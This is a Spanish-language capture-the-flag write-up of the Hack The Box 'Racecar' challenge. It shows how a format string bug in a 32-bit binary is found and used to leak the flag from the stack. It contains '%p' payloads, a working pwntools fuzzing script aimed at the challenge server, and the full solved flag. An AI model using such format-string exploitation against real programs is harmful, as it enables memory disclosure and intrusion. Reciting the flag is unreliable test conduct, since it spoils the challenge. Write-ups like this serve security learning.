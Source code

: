```yaml
---
title: Racecar
description: Did you know that racecar spelled backwards is racecar? Well, now that you know everything about racing, win this race and get the flag!
date: 2024-07-02
toc: true
pin: false
image:
 path: /assets/img/htb-writeup-challenges/pwd_logo.png
categories:
  - Hack_The_Box
  - Challenges
tags:
  - hack_the_box
  - pwd
  - format_string_attack

---
```

## Information Gathering

```terminal
/home/kali/Documents/htb/challenges/racecar:-$ unzip racecar.zip
racecar
```

Dentro del '.zip', encuentro unicamente un ejecutable 'racecar'.

```terminal
/home/kali/Documents/htb/challenges/racecar:-$ file racecar
racecar: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically 
linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, 
BuildID[sha1]=c5631a370f7704c44312f6692e1da56c25c1863c, not stripped
```

```terminal
/home/kali/Documents/htb/challenges/racecar:-$ ./racecar
```

![](/assets/img/htb-writeup-racecar/racecar1.png)

Basicamente, el juego consiste en eleigr entre las distintas opciones para ganar.

Las opciones ganadoras son el auto 1 y la carrera 2, o el auto 2 y la carrera 1.

Cuando ganas, te permite ingresar caracteres y luego vuelve a imprimirlos.

<https://dogbolt.org/>

![](/assets/img/htb-writeup-racecar/racecar2.png)

Analizando el código, encuentro que es vulnerable a un 'format string attack', como se indica en la línea 577 de 'Ghidra'. 

También requiere un archivo llamado 'flag.txt', como se indica en la línea 566 de 'Ghidra'.

---

## Vulnerability Exploitation

Creé un archivo 'flag.txt' y agregué algunos datos que serían fáciles de identificar en formato hexadecimal, en este caso ‘A’.

```terminal
/home/kali/Documents/htb/challenges/racecar:-$ echo 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA' > flag.txt
```

Después de hacer esto, volví a correr el ejecutable y esta vez, después de ganar la carrera, pasé '%p' varias veces como dato.

<https://owasp.org/www-community/attacks/Format_string_attack>

```terminal
/home/kali/Documents/htb/challenges/racecar:-$ ./racecar

--------------------------------------------------------
      ______                                       |xxx|
     /|_||_\`.__                                   | F |                                                                             
    (   _    _ _\                                  |xxx|                                                                             
*** =`-(_)--(_)-'                                  | I |                                                                             
                                                   |xxx|                                                                             
                                                   | N |                                                                             
                                                   |xxx|                                                                             
                                                   | I |                                                                             
                                                   |xxx|                                                                             
             _-_-  _/\______\__                    | S |                                                                             
           _-_-__ / ,-. -|-  ,-.`-.                |xxx|                                                                             
            _-_- `( o )----( o )-'                 | H |                                                                             
                   `-'      `-'                    |xxx|                                                                             
--------------------------------------------------------                        
                                                                                                                                     
Insert your data:                                                                                                                    
                                                                                                                                     
Name: name                                                                                                                           
Nickname: nick                                                                                                                  
                                                                                                                                     
[+] Welcome [name]!                                                                                                                  
                                                                                                                                     
[*] Your name is [name] but everybody calls you.. [nick]!                                                                       
[*] Current coins: [69]

1. Car info
2. Car selection
> 2
                                                                                                                                   
Select car:                                                                                                                          
1.
2.
> 2

Select race:                                                                                                                         
1. Highway battle                                                                                                                    
2. Circuit                                                                                                                           
> 1                                                                                                                                  
                                                                                                                                     
[*] Waiting for the race to finish...                                                                                                
                                                                                                                                     
[+] You won the race!! You get 100 coins!                                                                                            
[+] Current coins: [169]                                                                                                             
                                                                                                                                     
[!] Do you have anything to say to the press after your big victory?                       
> %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p

The Man, the Myth, the Legend! The grand winner of the race wants the whole world to know this: 
0x5725b200 0x170 0x56639dfa 0x60 0x6 0x26 0x2 0x1 0x5663a96c 0x5725b200 0x5725b380 0x41414141 0x41414141 0x41414141 0x41414141 0x41414141 0x41414141 0x41414141 0x41414141 0x41414141 0x41414141 0x414141 0x98fb6500 (nil) 0x5663cf8c 0xffb88558
```

Desconozco la posición de la variable que contiene el valor de la bandera en el 'stack', así que llevaré a cabo fuzzing en el 'stack' hasta que logre filtrar la flag.

Y para hacer eso es necesario el siguiente script.


```python
from pwn import *

flag = ''

# Let's fuzz x values
for i in range(100):
    try:
        # Connect to server
        io = remote('83.136.253.251', 42831)
        io.sendlineafter(b'Name: ', b'anas')
        io.sendlineafter(b'Nickname: ', b'something')
        io.sendlineafter(b'> ', b'2')
        io.sendlineafter(b'> ', b'2')
        io.sendlineafter(b'> ', b'1')
        # Format the counter
        # e.g. %i$p will attempt to print [i]th pointer (or string/hex/char/int)
        io.sendlineafter(b'> ', '%{}$p'.format(i).encode())
        # Receive the response
        io.recvline()
        io.recvline()
        result = io.recv()
        if not b'nil' in result:
            print(str(i) + ': ' + str(result))
            try:
                # Decode, reverse endianess and print
                decoded = unhex(result.strip().decode()[2:])
                reversed_hex = decoded[::-1]
                print(str(reversed_hex))
                # Build up flag
                flag += reversed_hex.decode()
            except BaseException:
                pass
    except EOFError:
        pass

# Print and close
info(flag)
io.close()
```

```terminal
/home/kali/Documents/htb/challenges/racecar:-$ python3 exp.py

[+] Opening connection to 94.237.53.113 on port 56321: Done
12: b'0x7b425448\n'
b'HTB{'
[+]
13: b'0x5f796877\n'
b'why_'
[+]
14: b'0x5f643164\n'
b'd1d_'
[+]
15: b'0x34735f31\n'
b'1_s4'
[+] 
16: b'0x745f3376\n'
b'v3_t'
[+]
17: b'0x665f3368\n'
b'h3_f'
[+]
18: b'0x5f67346c\n'
b'l4g_'
[+]
19: b'0x745f6e30\n'
b'0n_t'
[+]
20: b'0x355f3368\n'
b'h3_5'
[+]
21: b'0x6b633474\n'
b't4ck'
[+]
22: b'0x7d213f\n'
b'?!}'
```

HTB{why_d1d_1_s4v3_th3_fl4g_0n_th3_5t4ck?!}

> <a href="https://www.hackthebox.com/achievement/challenge/1521382/242" target="_blank">Racecar Challenge from Hack The Box has been Pwned</a>
{: .prompt-tip }
